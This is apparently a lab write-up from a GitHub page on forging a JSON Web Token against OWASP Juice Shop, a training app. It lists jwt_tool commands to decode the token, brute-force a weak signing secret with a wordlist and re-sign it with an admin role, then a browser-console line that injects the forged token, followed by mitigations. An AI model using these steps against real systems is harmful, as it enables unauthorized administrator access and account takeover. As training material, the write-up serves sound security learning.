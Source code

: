  ```Example:
Copy
Edit
jwt_tool.py <token> -d
🔹 4. Modify Payload
Change:

json
Copy
Edit
{
  "email": "admin@juice-sh.op",
  "role": "admin"
}
🔹 5. Sign New Token Using Weak Secret
Try secrets like:

secret

123456

jwtsecret

Or use jwt_tool.py to brute-force:

bash
Copy
Edit
jwt_tool.py <token> -C -d -p /usr/share/wordlists/rockyou.txt
Then:

bash
Copy
Edit
jwt_tool.py <token> -S secret -pc email=admin@juice-sh.op -pc role=admin
🔹 6. Inject Forged Token
In browser console:

js
Copy
Edit
localStorage.setItem("token", "<forged_token>");
Refresh page → You’re logged in as admin.

✅ Success Criteria
Able to access /#/administration

Scoreboard shows ✅ "Login with administrator account"

📸 POC

🛡️ Mitigation
Use strong, unpredictable JWT secrets

Prefer RS256 with private/public key pair

Validate role claims server-side

Implement short token expiry and revoke mechanisms

🔗 References
JWT.IO

PortSwigger JWT Attacks
 ```
